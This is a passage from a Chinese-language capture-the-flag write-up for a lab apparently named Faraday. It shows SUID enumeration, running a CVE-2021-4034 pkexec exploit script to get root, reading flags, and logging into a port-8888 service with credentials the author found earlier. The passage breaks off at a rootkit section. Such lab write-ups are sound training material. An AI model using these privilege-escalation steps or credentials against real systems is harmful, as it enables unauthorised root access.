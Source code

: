 ```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
```

在其中注意到 `/usr/bin/pkexec` 文件，尝试通过 CVE-2021-4034 利用

```bash
(remote) administrator@erlenmeyer:/home/administrator$ python3 CVE-2021-4034.py
[+] Creating shared library for exploit code.
[-] GCONV_PATH=. directory already exists, continuing.
[-] exploit directory already exists, continuing.
[+] Calling execve()
# bash
root@erlenmeyer:/home/administrator# cd /root
root@erlenmeyer:/root# ls -lh
total 15M
-rw-r----- 1 root administrator  14M Sep 13  2021 access.log
-rw-r--r-- 1 root root          9.3K Jul 20  2021 chkrootkit.txt
drwxr-xr-x 2 root root          4.0K Jul 21  2021 exploitme
-rw-r--r-- 1 root root            40 Jul 22  2021 flag.txt
drwxr-xr-x 4 root root          4.0K Jul 16  2021 snap
drwxr-xr-x 4 root root          4.0K Jul 16  2021 web
root@erlenmeyer:/root# cat flag.txt
FARADAY{__1s_pR1nTf_Tur1ng_c0mPl3t3?__}
```

```plaintext title="Flag"
FARADAY{__1s_pR1nTf_Tur1ng_c0mPl3t3?__}
```

## Hidden pasta

根据之前的端口扫描得到的信息，端口 `8888` 还没有利用过，使用上文得到的凭据尝试连接，成功得到

```bash
┌──(randark ㉿ kali)-[~]
└─$ nc 10.13.37.14 8888
Welcome to FaradaySEC stats!!!
Username: pasta
Password: antihacker
access granted!!!
FARADAY{C_1s-0ld-Bu7_n0t-0bs0|3te}
```

```plaintext title="Flag"
FARADAY{C_1s-0ld-Bu7_n0t-0bs0|3te}
```

## Root KIt

结合题目的名字，以及在 `/root` 目录下发现的

